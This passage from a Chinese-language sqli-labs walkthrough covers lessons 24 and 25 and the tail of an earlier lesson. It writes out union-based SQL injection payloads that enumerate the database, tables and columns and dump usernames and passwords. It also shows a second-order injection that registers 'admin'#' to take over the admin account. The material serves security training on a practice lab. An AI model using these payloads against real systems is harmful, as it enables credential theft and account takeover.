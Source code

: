 发现是可以行得通的

那么我们就可以继续

2.爆库

`?id=-1' union select 1,2,database() '`

3.爆表

`?id=-1' union select 1,2,group_concat(table_name) from information_schema.columns where table_schema=database() or'`

4.爆列名

`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' or'`

5.获取用户名密码

`?id=-1' union select 1,2,group_concat(0x7c,username,0x7e,password,0x7c) from users where 1 or '`


***
# less 24(二次注入)
## 原理
二次注入就是，注入行为没有发生在前端，而是，

恶意用户将payload首先上传至数据库，当其它用户再次调用此数据时发生的注入


## 步骤
分析：

`$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";`

代码中用到这么一条语句，对用户登录并没有太多的过滤

去看login_create 页面发现，即使对用户输入的用户名和密码做了mysql_escape_string()转义操作，

但是也没有将注释符全部转义，可以使用#

1.创建一个用户名为      `admin'#`

密码随便创建

意在将sql语句闭合，并且注释掉后面的查询密码部分

2.使用admin用户账户进行登录，并且修改密码

***
# less 25(过滤了or和and)
## 原理
本题过滤了 or 和 and

